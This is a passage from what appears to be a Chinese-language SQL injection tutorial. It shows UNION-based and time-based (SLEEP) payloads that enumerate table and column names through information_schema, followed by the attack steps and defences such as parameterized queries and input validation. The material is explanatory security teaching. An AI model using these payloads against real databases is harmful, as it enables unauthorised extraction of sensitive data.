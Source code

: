 - 条件过滤

  ： 使用条件语句避免抛出异常：

  ```sql
  ' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'users' AND column_name LIKE 'a%' -- 
  ```

- 延时注入： 利用 

  ```sql
  SLEEP()
  ```

   等函数确认元数据是否存在：

  ```sql
  ' UNION SELECT IF(LENGTH(table_name) = 5, SLEEP(5), NULL) FROM information_schema.tables -- 
  ```

------

### **总结**

利用 `information_schema` 的核心目标是枚举目标数据库的结构信息，这为进一步提取敏感数据和实施攻击奠定了基础。攻击者会通过以下步骤：

1. 获取数据库名称；
2. 获取目标数据库的表名；
3. 获取目标表的列名；
4. 提取敏感数据。

防御这类攻击的关键是：

- 使用参数化查询（如 Prepared Statements）；
- 限制低权限用户对 `information_schema` 的访问；
- 实现严格的输入验证和 WAF 防护。